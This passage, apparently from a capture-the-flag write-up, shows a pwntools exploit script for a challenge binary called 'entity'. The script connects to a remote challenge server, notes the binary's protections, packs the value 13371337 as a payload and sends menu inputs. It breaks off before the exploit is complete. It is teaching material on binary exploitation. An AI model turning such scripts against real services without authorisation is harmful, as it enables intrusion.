 So it looks like this:

```shell
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./entity --host 159.65.49.148 --port 32250
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./entity')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '159.65.49.148'
port = int(args.PORT or 32250)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

payload = (13371337).to_bytes(8,'little')

io.sendlineafter(b'>> ', b'T')
io.sendlineafter(b'>> ', b'S')
```
